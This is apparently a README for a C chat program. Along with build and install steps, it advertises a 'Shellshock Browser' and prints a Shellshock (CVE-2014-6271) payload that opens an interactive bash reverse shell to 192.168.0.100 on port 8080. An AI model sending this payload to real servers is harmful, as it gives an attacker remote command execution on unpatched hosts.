 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    A useful Link: http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"

# building
* On Linux: make

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

# install
* On Linux: sudo make install

# uninstall
* On Linux: sudo make uninstall

# clean
* On Linux: make clean
